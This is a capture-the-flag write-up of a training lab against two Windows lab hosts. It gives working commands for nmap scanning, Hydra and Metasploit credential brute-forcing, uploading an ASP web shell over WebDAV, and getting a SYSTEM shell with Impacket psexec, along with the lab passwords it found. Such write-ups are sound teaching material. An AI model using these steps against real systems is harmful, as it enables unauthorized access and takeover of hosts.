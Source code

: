 # Lab 05 – Host & Network Penetration Testing: System-Host Based Attacks CTF 1

This lab focused on exploiting weak HTTP authentication, WebDAV misconfigurations, and SMB credential reuse across two Windows targets (`target1.ine.local` and `target2.ine.local`). Four flags were obtained through credential brute-forcing, file upload abuse, and remote command execution.

---

## Flag 1 – Weak HTTP Basic Authentication on WebDAV  
**Hint:** *User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located.*

An initial scan identified an IIS server requiring authentication:

```bash
nmap -sV -sC target1.ine.local
```

Since port 80 returned `401 Unauthorized`, a brute-force attack was performed against user `bob` using Hydra:

```bash
hydra -l bob -P /usr/share/wordlists/metasploit/unix_passwords.txt target1.ine.local http-get /
# -> Valid credentials found: bob : password_123321
```

Using these credentials with a WebDAV client (`cadaver`) granted access to the `/webdav/` directory, where the first flag was stored

---

## Flag 2 – WebDAV File Upload and Remote Shell Execution  
**Hint:** *Valuable files are often on the C: drive. Explore it thoroughly.*

Upload permissions were confirmed using `davtest`, revealing support for multiple executable file types, including `.asp`:

```bash
davtest -auth bob:password_123321 -url http://target1.ine.local/webdav/
```

An ASP web shell was uploaded via WebDAV:

```bash
cadaver http://target1.ine.local/webdav/
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```

Accessing the shell via browser enabled remote command execution. Enumerating `C:\` revealed the second flag

---

## Flag 3 – SMB Administrator Credentials via Brute Force  
**Hint:** *By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag.*

A scan of `target2.ine.local` exposed SMB and RDP services:

```bash
nmap -sV -sC target2.ine.local
```

Using Metasploit’s `smb_login`, weak Administrator credentials were successfully identified:

```bash
use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set RHOSTS target2.ine.local
run
# -> Success: administrator : pineapple
```

With valid credentials, the administrative share `C$` was accessed using `smbclient`, where the third flag was retrieved

---

## Flag 4 – Remote Desktop Loot via PsExec  
**Hint:** *The Desktop directory might have what you're looking for. Enumerate its contents.*

Using Impacket’s `psexec`, an interactive SYSTEM shell was obtained:

```bash
impacket-psexec administrator@target2.ine.local cmd.exe
# Password: pineapple
```

Navigating to the Administrator Desktop revealed the final flag

---

## Summary

Flag 1 — HTTP brute force (Hydra): Brute-forced HTTP Basic on target1, authenticated as bob, and gained WebDAV access.

Flag 2 — WebDAV upload + ASP shell: With bob’s credentials uploaded an ASP webshell via WebDAV, executed commands remotely on target1 and retrieved the second flag.

Flag 3 — SMB brute force (Metasploit): Brute-forced SMB on target2, discovered valid Administrator credentials, accessed the administrative C$ share and downloaded the third flag.

Flag 4 — PsExec SYSTEM shell: Used the Administrator credentials to run PsExec (Impacket), obtained a SYSTEM shell on target2, and read the final flag from the Administrator desktop.

---

## Tools Used

- **nmap** – Service discovery  
- **Hydra** – HTTP credential brute force  
- **Cadaver / davtest** – WebDAV exploitation  
- **Metasploit (`smb_login`)** – SMB credential attack  
- **smbclient** – SMB interaction  
- **Impacket PsExec** – Remote command execution  

